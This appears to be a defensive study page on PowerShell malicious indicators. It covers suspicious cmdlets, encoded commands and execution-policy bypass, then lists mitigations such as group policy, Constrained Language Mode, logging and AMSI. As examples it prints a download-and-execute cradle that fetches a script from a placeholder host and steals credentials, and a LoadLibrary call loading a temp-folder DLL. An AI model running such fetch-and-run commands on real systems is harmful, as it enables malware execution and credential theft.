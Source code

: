 # POWERSHELL MALICIOUS INDICATORS

#### POWERSHELL MALICIOUS INDICATORS

There are numerous exploit frameworks to leverage PowerShell functionality, such as PowerShell Empire, PowerSploit, Metasploit, and Mimikatz. Some suspicious indicators for PowerShell execution include the following:

  
-   Cmdlets such as Invoke-Expression, Invoke-Command, Invoke-WMIMethod, New-Service, Create-Thread, Start-Process, and New-Object can indicate an attempt to run some type of binary shellcode. This is particularly suspicious if combined with a DownloadString or DownloadFile argument. One complication is that cmdlets can be shortened, assisting obfuscation. For example, Invoke-Expression can be run using IEX.
  

```Powershell
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://badsite.foo/DoEvil.ps1'); Do-Evil -StealCreds"
``` 

-   Bypassing execution policy can also act as an indicator. The PowerShell code may be called as a Base64 encoded string (-enc argument) or may use the -noprofile or -ExecutionPolicy bypass arguments.

  

-   Using system calls to the Windows API might indicate an attempt to inject a DLL or perform process hollowing, where the malicious code takes over a legitimate process:
    
    ```Powershell
	[Kernel32]::LoadLibrary("C:\Users\Foo\AppData\Local\Temp\doevil.dll")</li><br>
	``` 
    
-   Using another type of script to execute the PowerShell is also suspicious. For example, the attacker might use JavaScript code embedded in a PDF to launch PowerShell via a vulnerable reader app.

  

The big problem with PowerShell indicators is distinguishing them from legitimate behavior. The following techniques can be used to assist with this:

  
-   Use group policy to restrict execution of PowerShell to trusted accounts and hosts.
  
-   Use group policy execution control to run scripts only from trusted locations.
  
-   Consider use of Constrained Language Mode(devblogs.microsoft.com/powershell/powershell-constrained-language-mode) and signed scripts to limit the ability of exploit code to run on high-value target systems.
-   Use PowerShell logging (docs.microsoft.com/en-us/powershell/scripting/windows-powershell/wmf/whats-new/script-logging?view=powershell-7) and the Antimalware Scan Interface (docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps) to detect and prevent obfuscated and suspicious code.
  
-   Prevent the use of old PowerShell versions to mitigate the use of a downgrade attack to bypass access controls.

> _Symantec's white paper contains a useful introduction to PowerShell exploits (docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)._